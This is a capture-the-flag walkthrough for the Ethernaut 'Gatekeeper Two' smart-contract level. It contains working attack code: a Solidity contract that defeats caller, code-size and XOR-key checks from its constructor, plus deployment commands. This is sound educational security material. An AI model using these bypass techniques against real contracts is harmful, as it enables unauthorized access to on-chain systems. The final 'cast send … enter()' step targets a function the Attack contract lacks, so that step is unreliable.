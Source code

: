 ## Gatekeeper Two Level Outline

**Difficulty : 6/10**

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xdCeA38B2ce1768E1F409B6C65344E81F16bEc38d)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the assembly line `extcodesize(a)` checks the code size as address `a`. To bypass this check, we put our exploit code in the contracts constructor as the contracts code is only stored on the EVM after the constructor finishes calling and setting up it's state. So by calling our exploit in the constructor, `extcodesize` will return 0.

To pass the third modifier `gateThree()`, uses xor cipher to hide a key. But the xor operation has the property 

```
if,
A xor B = C
then,
A xor C = B


uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
A = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) 
B = uint64(_gateKey) 
C = uint64(0) - 1

so, 
uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0)-1
```

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    constructor(address _gateKeeper) {
        GateKeeper gateKeeper = GateKeeper(_gateKeeper);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (type(uint64)).max);
        gateKeeper.enter(key);
    }
}

interface GateKeeper {
   function enter(bytes8) external returns(bool);
}
```
> notice how we replaced 'uint64(0)-1' with type(uint64).max

##### 2. 

```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[0xSage's write up on this level](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd) goes into more depth on these topics


### [:arrow_left: Back To Main Menu](../)
